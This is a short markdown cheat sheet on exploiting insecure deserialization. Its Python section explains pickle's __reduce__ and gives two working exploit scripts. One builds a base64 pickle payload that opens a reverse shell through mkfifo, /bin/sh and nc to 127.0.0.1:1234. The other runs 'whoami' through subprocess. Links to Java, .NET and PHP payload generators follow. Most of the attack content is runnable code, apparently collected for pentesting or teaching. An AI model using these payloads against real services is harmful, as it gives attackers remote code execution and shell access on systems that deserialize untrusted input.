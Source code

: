 

# Python 
## pickle
### `__reduce__`

- In Python, `__reduce__` is a special method that allows you to customize the process of object serialization and deserialization using the `pickle` module. 
- When an object is pickled, the `__reduce__` method is called to provide a custom way to represent the object's state as a tuple.
- The `__reduce__` method should return a tuple that contains:

1. A callable (usually a class or a function) that will be used to reconstruct the object during unpickling.
2. A tuple of arguments to be passed to the callable when reconstructing the object.


### Exploit example [source](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

## another Example

- exploit for this object 
```
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

```python
#!/usr/bin/env python
import pickle
import pickletools
from base64 import b64encode
import subprocess


class anti_pickle_serum(object):
    def __reduce__(self):
        cmd=['whoami']
        return subprocess.check_output , (cmd,)


exploit_obj = anti_pickle_serum()

exploit_obj_data = pickle.dumps({"serum":exploit_obj} , protocol=0)

optmized_obj=pickletools.optimize(exploit_obj_data)
pickletools.dis(optmized_obj)

payload = b64encode(exploit_obj_data)

print(payload)

```

# Java 
- [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- [ysoserial](https://github.com/frohoff/ysoserial)

# .NET
- [ysoserial.net](https://github.com/pwntester/ysoserial.net)

# PHP
[phpggc](https://github.com/ambionics/phpggc) is a tool built to generate the payload based on several frameworks:
- Laravel
- Symfony
- SwiftMailer
- Monolog
- SlimPHP
- Doctrine
- Guzzle

- check [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md#finding-and-using-gadgets) for the list of php magic methods that can be useful 
